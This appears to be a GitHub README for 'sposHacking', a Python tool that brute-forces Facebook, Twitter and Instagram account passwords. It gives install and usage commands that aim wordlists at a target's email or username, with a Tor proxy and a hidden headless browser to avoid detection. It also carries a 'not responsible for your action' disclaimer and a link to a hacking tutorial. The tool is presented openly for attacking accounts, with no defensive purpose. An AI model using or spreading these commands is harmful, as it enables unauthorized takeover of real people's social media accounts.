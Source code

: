 # sposHacking

A Bruter for FAcebook, twITter, and InstAGRAM. Made with python, developed from brut3k1t.

[You will need python!]

CREDIT:

  This project was developed from brut3k1t,which was made by ex0dus-0x.
  Here is the page : https://github.com/ex0dus-0x/brut3k1t
  Since this script was not functionning, and was not ready for a attack, so I decided to develop this program from his.


I am not responsible for your action.



----------------  How To Use ----------------

Get the requirements:

    python setup.py

Command:

    python sposgram -s [service] -u [username] -w [wordlist] -d [delay(Optional)]

Examples:

  

    python sposgram -s facebook -u MeMeBigBoy@gmail.com -w /root/passwd.txt -d 10

    (Execute sposgram) (facebook)  (Email of the target)  (wordlist path)   (delay[10secs])


    python sposgram -s instagram -u justin -w wlist

    (Execute sposgram) (Instagram) (username) (wordlist)
  

    python sposgram -s twitter -u hellohahahha -w wlist -d 3

    (Execute sposgram) (Twitter)  (Username)  (wordlist) (delay[3secs])
  

Memorize:

    -s, -u, -w parameters are musts, and -d is optional.

    -d in default is 1 sec.

    In facebook, you would have to type the email in the -u.

    In facebook, the script will ask you the Name of the target.

Specific tutorial will be on NullByte, I would put a link after I make a tutorial:

   https://null-byte.wonderhowto.com/forum/hacking-facebook-twitter-instagram-account-passwords-with-bruteforce-0181808/

How it works:

   This script uses selenium web driver, and Xvfb and pyvirtualdisplay to make the web driver invisible so you can keep doing work, this script also uses STEM as the proxy.
